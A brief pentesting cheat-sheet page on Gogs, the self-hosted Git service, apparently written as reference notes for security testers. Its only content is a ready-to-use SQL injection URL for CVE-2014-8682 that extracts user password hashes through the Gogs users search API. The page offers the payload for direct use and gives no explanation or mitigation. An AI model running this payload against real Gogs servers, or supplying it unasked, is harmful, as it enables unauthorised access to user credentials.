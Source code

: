 ```yaml
---
title: Gogs Pentesting
desc:
tags: [Git, Gogs, RCE, SQLi]
alts: []
render_with_liquid: false
---
```


## SQL injection ([CVE-2014-8682](https://www.exploit-db.com/exploits/35238){:target="_blank"}{:rel="noopener"})

```
http://127.0.0.1:3000/api/v1/users/search?q=')/**/union/**/all/**/select/**/1,1,(select/**/passwd/**/from/**/user),1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1--
```
